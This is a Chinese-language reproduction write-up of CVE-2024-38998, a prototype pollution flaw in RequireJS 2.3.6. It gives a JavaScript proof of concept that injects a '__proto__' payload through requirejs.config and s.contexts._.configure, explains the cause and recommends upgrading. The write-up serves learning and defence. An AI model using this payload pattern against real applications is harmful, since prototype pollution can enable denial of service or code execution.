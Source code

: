 # CVE-2024-38998 RequireJS v2.3.6 版本原型污染漏洞 

---
## 漏洞描述

### 漏洞描述  

该漏洞影响 RequireJS v2.3.6，属于原型污染漏洞（Prototype Pollution）。攻击者可以通过向 vulnerable 函数（如 `config` 和 `s.contexts._.configure`）传递构造了特殊属性（例如 `__proto__`）的输入，进而污染全局对象的原型，可能导致任意代码执行、拒绝服务（DoS）或其他安全问题。

### 受影响版本  
RequireJS 版本 2.3.6（升级至 2.3.7 或更高版本可修复此问题）。

---



## 环境准备

1. ### 测试环境  
   - 使用 Node.js 环境（确保支持 ES 模块导入）。
   - 在本地kali安装 RequireJS v2.3.6（或模拟该版本的行为）。

2. ### 依赖项  
   - Node.js 环境（推荐使用较新的 LTS 版本）。
   - RequireJS v2.3.6（可从 npm 下载特定版本）。

---

## 复现步骤

以下代码示例基于公开的 GitHub Gist（例如  和  提供的示例），演示了如何通过构造恶意输入来污染对象原型。

```javascript
// PoC 漏洞复现示例
(async () => {
  // 导入 requirejs 模块（确保使用 v2.3.6 版本）
  const requirejs = await import('requirejs');

  // 构造一个空对象作为受害者
  let victim = {};

  console.log("攻击前, victim.__proto__ =", JSON.stringify(victim.__proto__));

  try {
    // 调用 config 函数，传入包含 __proto__ 的恶意 JSON 数据
    requirejs.config(JSON.parse('{"__proto__": {"test": 123}}'));
    // 若模块内部调用 s.contexts._.configure 也接受同样的输入，则同样可导致原型污染
    requirejs.s.contexts._.configure(JSON.parse('{"__proto__": {"test": 123}}'));
  } catch (e) {
    console.error("调用过程中出现错误:", e);
  }

  console.log("攻击后, victim.__proto__ =", JSON.stringify(victim.__proto__));

  // 清理：删除原型中污染的属性，避免影响后续测试
  delete Object.prototype.test;
})();
```

**代码说明**  
- 首先，代码导入 RequireJS 模块（确保是 v2.3.6 版本）。  
- 构造了一个普通对象 `victim`。  
- 调用 `requirejs.config` 时，传入的 JSON 数据包含特殊属性 `__proto__`，导致所有对象的原型被注入 `test` 属性。  
- 如果 `s.contexts._.configure` 同样存在漏洞，则也能被利用。  
- 最后打印出攻击前后的对象原型变化，以确认是否成功污染。

---

## 漏洞分析

1. **原理**  
   - JavaScript 中，所有对象默认继承自 `Object.prototype`，当攻击者将数据注入到 `__proto__` 时，就可以在全局范围内影响所有对象。  
   - 在 RequireJS v2.3.6 中，由于对输入数据未做严格校验，导致传入包含 `__proto__` 的数据时，恶意属性会被合并到全局原型中。

2. **可能影响**  
   - **任意代码执行**：如果后续代码依赖某个对象属性（例如执行 `eval` 或类似操作），污染后的属性值可能被利用执行恶意代码。  
   - **拒绝服务（DoS）**：污染全局原型可能导致意外错误、异常或资源耗尽，从而引发拒绝服务。

3. **修复建议**  
   - 升级 RequireJS 至 2.3.7 或更高版本。  
   - 对输入数据进行严格验证，避免直接合并外部输入到全局对象。

---


## 参考资料

- ：mestrtee 的 GitHub Gist，提供了 PoC 示例和漏洞描述。  
- ：GitHub Advisory Database 中关于该漏洞的描述。

---
## 个人吐槽及相关技术学习：
Javascript,本人也不熟，更别提Node.js ，但这白盒漏洞复现接触到了，那干脆就研究研究。




